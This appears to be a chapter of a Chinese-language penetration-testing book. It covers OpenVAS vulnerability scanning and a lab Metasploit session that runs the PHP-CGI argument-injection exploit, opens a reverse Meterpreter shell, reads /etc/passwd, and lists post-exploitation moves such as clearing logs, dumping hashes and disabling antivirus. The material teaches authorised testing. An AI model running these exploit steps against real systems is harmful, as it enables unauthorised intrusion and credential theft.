## 4 Vulnerability Scanning and Metasploit

现在开始有趣的部分怎么样！在完成工具和系统的设置以及必要的情报收集后，现在是时候开始利用我们收集到的数据了。本章的重点将是扫描环境中的漏洞，然后尝试使用 Metasploit 等工具利用这些漏洞。我们还将通过使用名为 **Browser Exploitation Framework (BeEF)** 和 **Social Engineering Toolkit (SET)** 的工具来探索用户侧。

本章将涵盖以下主题：

- 漏洞扫描工具
- 扫描技术
- OpenVAS
- 开始使用 OpenVAS
- 对环境执行扫描
- 开始使用 Metasploit
- 使用 Metasploit 利用目标
- 使用 BeEF 进行基于浏览器的利用
- 使用 SET 进行客户端攻击

## Vulnerability scanning tools

有很多种漏洞扫描工具。有些是商业产品，需要付费。这些产品通常具有精致的 GUI，使用方便且报告功能强大。其中包括 Rapid7、Qualys 和 Tenable 等扫描器。还有一些是免费的。其中包括 OpenVAS、Retina CS 和 Nexpose 等产品。这些免费工具通常使用起来并不那么容易，也不一定具有付费版本那么多的功能。然而，根据我的经验，OpenVAS 是一个很棒的免费工具。Nessus 曾是最受欢迎的免费漏洞扫描器之一，直到它转为闭源，此后需要年度订阅。

漏洞扫描器旨在扫描环境并查找网络参数范围内的已知漏洞。根据产品不同，漏洞扫描器产品中可能包含 10,000 多个可用于针对目标的已知漏洞。这些类型的漏洞包括网络、Web 应用、数据库、基于主机的、基于浏览器的，或仅仅是一个简单的端口扫描器。过去几年里，许多公司由于保持安全环境压力增大而在内部采用了漏洞扫描器。鉴于泄露对公司可能造成的灾难性影响，安全已成为每个人的首要关注点；如果不是，现在也将是。

厂商甚至意识到漏洞扫描器在组织中的重要性，并开始在其产品中构建漏洞扫描器的集成。我最期待的其中之一是 Cisco 与其 **Identity Services Engine (ISE)** 和第三方漏洞扫描器的集成。有了 ISE，你可以使用机器获得的漏洞评分作为决定因素，判断该系统是否可以放置在网络上的正确 VLAN 中，或是否需要推送到隔离 VLAN。我认为随着越来越多的公司将漏洞扫描作为正常的业务安全功能采用，这种集成只会增长。合规性在推动漏洞扫描方面也发挥着巨大作用，因为 PCI-DSS 等标准要求定期进行扫描。

每个漏洞的目标都是在坏人之前找到它们。它们的设计不是使任何系统瘫痪，而是只是报告它们（与我们稍后使用 Metasploit 所做的不同）。由于它们执行的测试数量庞大，通常运行时间很长，因此请适当规划。它们还应定期安排。通常是每季度一次；然而，如果你处于高变更环境中，你可能希望更频繁地执行，或也许只是在较大变更后执行。


你不希望一次变更在你的环境中打开一个漏洞。

## Scanning techniques

组织执行的两种主要扫描技术是内部和外部漏洞测试。你可能认为它们之间并没有太大区别，但这通常是一个误解。外部扫描是通过试图进入你环境的外部人员的视角进行的。因此，它们将与任何面向公众的服务所使用的所有系统进行交互。这将包括公共网站和面向公众的服务。它们旨在测试外部用户可以访问的内容。因此，你的外部防火墙上入站流量的 ACL 越小，你的攻击面就越小。始终锁定防火墙，只包含必要的服务和端口。外部扫描通常通过批准的扫描供应商或 ASV 进行测试。

另一方面，内部扫描旨在查找内部系统中的漏洞。通常，在这种测试中，漏洞扫描器可以完全访问系统。原因在于这些测试是查找系统内的任何问题，而不仅仅是可达的问题。内部扫描通常由内部安全人员执行，除非组织没有此类人员。如果是这种情况，那就是我们可以介入的地方。一些组织还有内部设备不断运行扫描并为管理层生成报告。这往往是这种情况，因为内部系统比面向公众的服务变更更频繁。

## OpenVAS

在完成漏洞扫描的背景信息后，让我们深入漏洞扫描的核心并开始检查一些主机。如我之前提到的，有大量漏洞扫描产品。然而，对于我的实验室，我将使用 OpenVAS，这是一个免费的开源工具。


即使我们在本实验室中使用 OpenVAS，也不要认为这是必需的扫描器。如果你订阅了一些付费扫描器，或更喜欢使用其他工具，请随意使用。扫描的语法、执行和流程可能不同；然而总体结果应该相同。

OpenVAS 是 Nessus 产品的一个分支，因此它有着悠久的历史。OpenVAS 是一个功能极其强大的扫描器，但可能很难上手。OpenVAS 有一个明确的结构，如图所示：



网络漏洞测试，或 NVT，是被引入扫描器用于扫描的定义测试，最终会产生存储的结果。OpenVAS 有一个很棒的功能，即这些 NVT 通过 feed 服务添加和更新。这确保你始终拥有最新的 feed。截至 2016 年中，OpenVAS 中有 47,000 多个 NVT。这些插件真正使 OpenVAS 成为一个功能强大且灵活的工具。如果发现新的漏洞，有人会制作此插件，然后你可以将其加载到系统中以在网络上扫描它。这展示了 OpenVAS 的开放性和强大性。

## Getting started with OpenVAS

安装 OpenVAS 时，你会注意到它有很多组成部分。因此，初次使用 OpenVAS 时可能会感到不知所措。然而，一旦你熟悉它并理解其流程，它就是一个相当强大的产品。

安装 OpenVAS 后，你需要运行设置脚本来完成各种需要完成的任务。这可以通过方便的 `openvas-setup` CLI 命令完成。这将确保你的 OpenVAS 设置已完全就绪，并且是最新的规则：

```
[i] Will use wget
[i] Using GNU wget: /usr/bin/wget
[i] Configured NVT http feed: http://www.openvas.org/openvas-nvt-feed-current.tar.bz2
[i] Downloading to: /tmp/openvas-nvt-sync.GSNdJ1PXPO/openvas-feed-2017-01-24-11451.tar.bz2
```

接下来，你需要确保必要的服务正在运行并监听正确的端口。你最后想做的事情就是开始工作，然后花上数小时排查一个已停止的服务。你需要确保三个服务正在运行，它们分别是管理器、扫描器和 GSAD 服务。使用 netstat 命令，我们将在尝试连接之前验证这些服务是否正在监听：

```
root@kali:/etc/ssh# netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:9390          0.0.0.0:*               LISTEN      23062/openvasmd
tcp        0      0 127.0.0.1:9391          0.0.0.0:*               LISTEN      23030/openvasd: Wa
tcp        0      0 127.0.0.1:80            0.0.0.0:*               LISTEN      23071/gsad
tcp        0      0 127.0.0.1:9392          0.0.0.0:*               LISTEN      23068/gsad
```

如果由于某种原因你没有打开这些服务，你可以通过 openvas-start 命令手动启动 OpenVAS：

```
root@kali:~# openvas-start
Starting OpenVas Services
root@kali:~# netstat -antp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:9390          0.0.0.0:*               LISTEN      1692/openvasmd
tcp        0      0 127.0.0.1:9391          0.0.0.0:*               LISTEN      1729/openvasd: Rel
tcp        0      0 127.0.0.1:9392          0.0.0.0:*               LISTEN      1683/gsad
tcp        0      0 127.0.0.1:80            0.0.0.0:*               LISTEN      1707/gsad
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      590/sshd
tcp        0      0 192.168.33.27:22        192.168.33.3:49389      ESTABLISHED 1635/sshd: root@pts
tcp6       0      0 :::22                   :::*                    LISTEN      590/sshd
```

如果一切检查正常，你应该能够打开浏览器并通过管理端口 9392 连接到管理器。以下是我的 Web 界面的截图：


你将使用 admin 用户和在设置期间生成的密码登录。登录后，你将导航到主屏幕，在那里你可以开始执行漏洞扫描。此屏幕显示任务向导，这是一个快速扫描选项：



## 对环境执行扫描

在开始使用 OpenVAS 进行扫描流程之前，让我们先谈谈不同类型的扫描。你会注意到有很多类型，其中包括提及以下关键词 full、deep、fast 和 ultimate 的扫描。当我第一次浏览它们时，我对它们的区别感到困惑。OpenVAS 文档对这些选项的描述做得非常好：

- **Full and fast**：此扫描利用大多数 NVT 并使用之前收集的信息。
- **Full and fast completed**：此扫描利用大多数 NVT 并同样使用之前收集的信息。然而，其中一些检查可能会导致服务/远程系统关闭。
- **Full and very deep**：此扫描利用大多数 NVT，但速度较慢，因为它不使用之前收集的信息。
- **Full and very deep ultimate**：此扫描利用大多数 NVT，但不使用之前收集的信息，因此速度较慢。其中一些可能会导致服务/远程系统关闭。

开始漏洞扫描时，你只需在 **Quick start** 框中输入 IP 地址：

- 1. 在此框中添加 IP 地址后，你可以点击 **Start Scan** 按钮，你将看到一个与以下截图类似的任务被创建：




此任务应在一两分钟内开始，具体取决于所需的资源。

- 2. 一旦扫描开始，你会看到进度条开始变绿并显示完成百分比。在扫描期间，你可以随时点击扫描名称，你将看到当前报告。此报告将显示所有已完成的测试以及未完成的测试。你当然可以在其中按 **Severity** 过滤，以便对出现的任何漏洞有一个大致了解。我通常启动扫描然后转去做其他事情，因为扫描可能需要一段时间，具体取决于你从哪个主机扫描。一旦完成，你将看到任务状态为 **Done**。你还会看到报告的严重程度以及其他信息：



- 3. 点击 Reports 还会分解扫描期间发现的不同严重级别。这描绘了一幅漂亮的图片（在这种情况下并不那么漂亮），说明该主机有多么严重地易受攻击：



- 4. 要真正深入了解报告的细节，只需点击 Date。这会带你进入报告本身。进入后，你可以点击 Severity 列按最高严重程度排序。这样你就可以优先处理需要响应的内容：



- 5. 你还可以点击 Vulnerability name 来查看该漏洞具体是什么。例如，以下是系统中发现的一个漏洞的描述：



- 6. OpenVAS 的另一个出色功能是如果它知道修复方法，就会显示潜在的修复方案。这是名称为拼图块的列。如果你发现其中一个你易受攻击的漏洞有修复图标，你可以在漏洞的详细信息中查看是否存在厂商修复、变通方法、无可用修复或任何缓解技术。

- 7. 现在，你已经拥有了所有相关信息，可以开始使用 Metasploit 来针对这些漏洞。然而，在你深入之前，你希望确保继续保持强大的安全配置；因此你将自动化这些扫描，以确保它们持续进行，并在发现具有特定严重级别的漏洞时提醒你。为此，导航到配置和计划并创建一个新的每周计划：



- 8. 接下来，你需要设置警报。为此，导航到 **Configuration** 并选择 **Alerts**。在警报屏幕上，你需要创建一个新的警报。进入后，你可以按任意方式配置警报。我的设置是当严重程度分数为 **5.0** 及以上时发出警报：



- 9. 最后，在完成任务设置准备之前，你需要配置你的目标。这在 **Configuration | Target** 菜单中完成。在这里，你将为 **My LAMP Server** 创建一个新目标，填写 IP 地址和其他信息，然后保存目标。我的目标列表如下所示的配置：



- 10. 现在所有预工作都已完成，你需要进入 **Scan Management** 来设置扫描并应用计划和警报。为此，点击 **Scan Management** 然后点击 **Tasks**。进入 **Tasks** 后，使用之前创建的所有变量创建一个新任务。这应该会带你进入可以输入要自动化的扫描任务所有信息的屏幕：



就这样，你现在将在特定主机上拥有一个可工作的计划任务，并且警报功能也已全部完成。你需要定期执行一些管理任务以确保 feed 为最新。在 **Administration** 菜单下，你需要点击三个 feed 选项以确保更新 feed。这样你就可以为任何扫描获得最新最好的内容。

你的扫描报告可能包含误报和漏报。误报是指报告显示某项是开放的，但实际上并非开放。这种情况有时会发生。其他测试应该能揭示该端口的真相。至于漏报，这是扫描器显示端口未开放，但实际上它是开放的情况。这些往往更危险，因为你会假设端口已关闭然后继续进行。进一步的测试和探测可以揭示这些端口的真相。

现在我们已经完成了漏洞测试并手握报告，让我们回顾漏洞报告并开始计划首先尝试利用哪个目标。这就是 **Metasploit** 登场的地方，它是我们渗透测试工具箱中的下一个工具。


## 开始使用 Metasploit

Metasploit 是一个用于对目标主机进行漏洞利用测试的强大框架。Metasploit 毫无疑问是漏洞利用测试中的事实标准。我们将利用从 OpenVAS 扫描中获得的信息尝试利用系统，以验证它们是否确实容易受到发现的那些漏洞的影响。然后我会将测试获得的结果纳入渗透测试报告中。这样公司内的管理层和相关利益相关者就可以在有补丁可用时修补漏洞，或创建必要的补偿控制措施。

目前 Metasploit 有四个版本可用：社区版、Express 版、Ultimate 版和 Pro 版。社区版是免费的，但由于它是免费的，因此存在限制。随着更多功能和能力的增加，其他版本的成本也会增加。以下是 Rapid7 提供的各版本功能对比的详细介绍，Rapid7 是在 2009 年收购 Metasploit 框架的公司：

```
https://help.rapid7.com/metasploit/Content/getting-started/product-editions.html
```

我将在所有测试中使用社区版，因为它免费使用，并且允许任何想跟随本书示例的人一起学习。

Metasploit 框架基于模块。你使用这些模块对目标执行各种任务。这些模块包括以下内容：

- **Exploits**：这些是尝试利用系统已知漏洞的代码。
- **Payload**：这些是会在远程系统上留下痕迹的代码。
- **Encoders**：这些有助于将有效载荷传输到远程系统，通过帮助绕过其路径上的任何障碍。
- **Nops**：意为无操作。在 x86 架构中，它实际上意味着在一个周期内什么都不做。这使得 Metasploit 能够保持有效载荷大小一致。
- **Post**：这些是在系统被入侵后可以使用的模块。
- **Auxiliary**：这些是其他不适合前述类别的模块。如果你从 msfconsole 执行 show auxiliary，可以看到各种类别，例如扫描器和模糊测试器。

我将使用 Metasploit 中的一些模块来尝试访问我的远程目标。

## 使用 Metasploit 利用我们的目标

现在，是时候尝试利用我们在漏洞扫描期间发现的一些目标了。这里 `msfconsole` 将成为我们新的好帮手。Msfconsole 是 Metasploit 的单窗格玻璃/集中式控制台。这是我使用 Metasploit 的最喜欢的方式，因为它是少数几种可以访问产品中大多数功能的方式之一。

要启动 `msfconsole`，只需打开一个终端窗口并输入 `msfconsole --help`。现在，启动 `msfconsole` 时可以传递许多选项。以下是这些选项的截图：



然而，对于我的测试，我们只需在不带任何额外选项的情况下运行命令。为此，只需从命令行运行 `msfconsole`，你应该会进入 `msf` 提示符：



进入 `msfconsole` 后，确实可能会让人感到畏惧。运行 `help` 命令会显示你拥有的所有选项。里面有很多很棒的东西，但从哪里开始呢？我做的第一件事是运行 `show exploits`。这样我就可以看到所有可用的漏洞利用。我想看看其中是否有任何一个与我在漏洞扫描中发现的内容相匹配。

我在漏洞报告中首先注意到的是目标服务器存在 PHP-CGI 问题。为了看看 Metasploit 中是否有相关内容，我登录 `msfconsole` 并搜索任何 `php-cgi` 漏洞利用。幸运的是，确实找到了一个。以下截图显示了此次搜索：



由于我想在漏洞利用报告中尽到应尽的责任，我查看了报告中“References”部分找到的链接。我想验证 msfconsole 中的漏洞利用是否与漏洞报告中的一致。在查看 http://www.kb.cert.org/vuls 后，我可以看到其披露日期与我在 msfconsole 中显示的相同。这些信息足以让我想要继续并验证漏洞：



由于我现在知道要使用的漏洞利用，我只需要告诉我的 msfconsole 使用该特定漏洞利用。加载漏洞利用的过程相当直接。

使用关键字 use 和漏洞利用字符串，我的提示符应按如下方式更改漏洞利用：

```
msf > use exploit/multi/http/php_cgi_arg_injection
msf exploit(php_cgi_arg_injection) >
```

现在在主动尝试漏洞利用之前，我必须指定目标主机。使用 show options 命令，我可以看到当前设置了哪些选项。在我的情况下，我的 RHOST 为空。这完全不是问题，因为我只需指定我的主机，即我们对其运行漏洞扫描的主机。我将使用 set RHOST 命令：

```
set RHOST 192.168.87.130
```

以下截图显示了我实验室中的过程：



现在漏洞利用已加载，并且我已设置选项，是时候尝试利用了。这是有趣的部分。对主机运行漏洞利用使用 exploit 命令完成：

```
msf exploit(php_cgi_arg_injection) > exploit
```

一旦我按下 Enter，Metasploit 就会尝试使用指定的漏洞利用来利用目标主机。这可能需要一些时间，但等待是值得的：

```
msf exploit/php_cgi_arg_injection > exploit
[*] Started reverse TCP handler on 192.168.87.129:4444
[*] Sending stage (34122 bytes) to 192.168.87.130
[*] Meterpreter session 1 opened (192.168.87.129:4444 -> 192.168.87.130:33595) at 2017-01-27 10:15:00 -0500

meterpreter >
```

你可以在这里看到我们的漏洞利用是成功的。我们现在处于 meterpreter 提示符下。

Meterpreter 基本上是一个动态有效载荷，使用内存注入，即交互式 shell。所有这些都是通过在漏洞利用期间建立的网络连接进行的。从这里，你可以对被入侵的系统做很多不同的事情。你可用的选项取决于你现在已控制的受损系统的类型。通常，你有以下类别的以下命令：

- 核心命令
- 文件命令
- 网络命令
- 文件系统命令
- 用户界面命令
- 摄像头命令
- 提权命令
- 密码数据库命令
- 时间戳命令

Meterpreter 通常不会被基于网络的入侵检测系统以及基于主机的入侵检测系统察觉。这使其成为在远程计算机上运行任务同时保持隐蔽的绝佳工具。

现在，让我们看看能获取什么信息。我将尝试获取 passwd 文件，因为它总是包含一些有用的信息，而且在接下来的几天里我们需要它来进行一些密码攻击：

```
meterpreter > cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
```

之后，我还可以查看在被利用系统上以哪个用户身份运行：

```
meterpreter > getuid
Server username: www-data (33)
```

基于这些信息，我可以在渗透测试报告中明确写出该主机容易受到我们使用 OpenVAS 发现并通过 Metasploit 利用的特定 PHP-CGI 漏洞的影响。


由于我只是想看看是否可以利用目标系统，我不会对目标系统进行任何更改或做任何恶意操作。Meterpreter 让你几乎可以做任何事情，包括上传和下载文件。我们的目的是找到、测试、验证并报告我们发现的内容，这就是我将要做的事情。

除了前面获取密码文件的示例之外，你还可以执行一些我认为非常强大的任务：

- 获取 shell
- 在目标主机上执行给定文件
- 清除并保护远程事件日志
- 向目标主机上传或下载文件
- 终止进程
- 获取系统信息
- 读取/写入/删除文件
- 运行第三方创建的脚本，例如以下内容：
  - 检查虚拟机
  - 转储哈希文件
  - 关闭杀毒软件
  - 从目标主机收集你可能想要的任何内容


These are just some examples of the power of meterpreter.

## 了解客户端攻击
